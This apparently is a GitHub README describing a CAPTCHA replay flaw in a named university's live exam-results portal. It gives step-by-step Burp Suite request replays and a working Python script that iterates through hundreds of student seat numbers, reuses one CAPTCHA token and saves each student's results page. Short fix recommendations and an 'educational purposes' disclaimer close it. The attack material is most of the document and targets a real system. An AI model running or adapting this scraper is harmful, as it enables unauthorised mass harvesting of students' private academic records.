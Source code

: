# 🐛 KLE Tech eResults CAPTCHA Bypass Exploit

## ⚠️ Vulnerability: Persistent CAPTCHA Token Allows Mass Data Scraping

### **Overview**
A security flaw in the [KLE Tech eResults](https://eresults.kletech.ac.in) portal allows **automated retrieval of student results** without solving multiple CAPTCHAs. The CAPTCHA token remains **unchanged when using the "Go Back" button**, allowing attackers to **reuse the same token** for multiple requests, effectively bypassing CAPTCHA validation.

This flaw enables **mass scraping of student records**, violating privacy regulations and exposing sensitive academic data.

---

## 🎯 **Vulnerability Type**
- **CAPTCHA Replay Attack**
- **Broken Authentication Mechanism**
- **Insecure Direct Object Reference (IDOR)**

---

## 🔍 **How the Exploit Works**
1. **Access the eResults page**, enter a valid **USN** (University Seat Number), and solve the CAPTCHA.
2. **Capture the request in Burp Suite** and note the **POST request** containing the CAPTCHA value.
3. **Navigate back in the browser** and input a **different USN**.
4. **Replay the Burp Suite request** with a modified **USN** while keeping the original CAPTCHA.
5. The server **accepts the request** and retrieves **new student results** without requiring a new CAPTCHA.

---

## 🔎 **Burp Suite Request & Response Analysis**


![Screenshot from 2025-03-06 22-16-18](https://github.com/user-attachments/assets/cd08acfa-4991-4690-8297-89745ec252c3)

### 🔹 **Original Request**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs110&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Modified Request (Exploiting the Vulnerability)**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs200&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Server Response**
```html
<html>
  <body>
    <h3>Student Name: John Doe</h3>
    <table>
      <tr><td>Machine Learning</td><td>A</td></tr>
      <tr><td>Data Structures</td><td>B</td></tr>
    </table>
  </body>
</html>
```
📊 The **server accepts the same CAPTCHA** and returns **another student's results** without verification.

---

## 🤖 **Automating the Exploit**
We developed a Python script to:
1. **Solve CAPTCHA once** and save the token.
2. **Loop through all USNs** (`01fe22bcs001` → `01fe22bcs300`, `01fe22bci001` → `01fe22bci300`).
3. **Reuse the same CAPTCHA** for every request.
4. **Save each student's HTML response locally**.

### 👉 **Python Exploit Code**
```python
import requests

base_url = "https://eresults.kletech.ac.in/index.php"
session = requests.Session()

captcha_value = input("Enter CAPTCHA value: ").strip()
start_usn = 1
end_usn = 300

for series in ["01fe22bcs", "01fe22bci"]:
    for i in range(start_usn, end_usn + 1):
        usn = f"{series}{i:03d}"
        data = {
            "usn": usn,
            "osolCatchaTxt": captcha_value,
            "osolCatchaTxtInst": "0",
        }

        response = session.post(
            f"{base_url}?option=com_examresult&task=getResult",
            data=data
        )

        if "Wrong CAPTCHA" in response.text:
            print(f"❌ CAPTCHA expired. Try again.")
            break

        with open(f"{usn}.html", "w", encoding="utf-8") as file:
            file.write(response.text)

        print(f"✅ Saved: {usn}.html")
```

---

## 🛡 **How to Fix This?**
### 🔴 **Current Issue:**
- CAPTCHA is **not session-based** and can be reused.
- No per-request CAPTCHA verification.
- No rate-limiting or request throttling.

### 🛠 **Recommended Fixes:**
1. **Generate a new CAPTCHA** for every request.
2. **Tie the CAPTCHA token to a session** and expire it after a single use.
3. **Implement rate limiting** to block excessive requests from a single user.
4. **Use reCAPTCHA or a stronger CAPTCHA solution** to prevent automation.

---

## 🎯 **Impact**
- **Confidentiality Breach**: Any student's academic records can be accessed.
- **Privacy Violation**: Exposes personal academic information without authentication.
- **Regulatory Issues**: May violate data protection laws like **GDPR** and **Indian IT Act**.

---

## 💌 **Responsible Disclosure**
This report is for **educational purposes only**. If you are a security researcher or the system administrator of KLE Tech, we strongly recommend **fixing this vulnerability immediately**.

---

## ⚠️ **Disclaimer**
This repository is for **educational and ethical hacking research purposes only**. Unauthorized access to systems without permission is **illegal** and punishable by law. Do not misuse this information.

---


---

### 💪 Thanks for reading. Stay ethical! 🔒

